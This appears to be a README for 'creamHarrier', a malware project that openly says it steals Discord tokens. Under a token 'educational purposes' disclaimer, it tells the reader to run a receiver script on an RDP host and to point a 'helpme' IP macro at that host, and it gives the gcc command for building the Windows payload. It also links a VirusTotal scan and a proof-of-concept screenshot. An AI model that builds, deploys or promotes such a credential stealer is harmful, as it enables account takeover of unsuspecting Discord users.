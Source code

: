 # creamHarrier
- This basically steals discord token.

# Disclamer:
This is for educational purposes only, I am not responsible for what or for whom.
 
## run rec.py on rdp or somewhere also modify helpme to the ip of the rdp 
```
#define helpme "127.0.0.1"
``` 

## how to compile
```
gcc payload.c -o test.exe -lws2_32 -lwsock32
```

# Virus total

https://www.virustotal.com/gui/file/1a8db167437be63ed19abf91299f14ce653ad39adfe0cccbf7ffc9eed9cb6a85/detection

# Proof of concept
![Screenshot](https://media.discordapp.net/attachments/775156196562305044/830364577723187220/unknown.png)
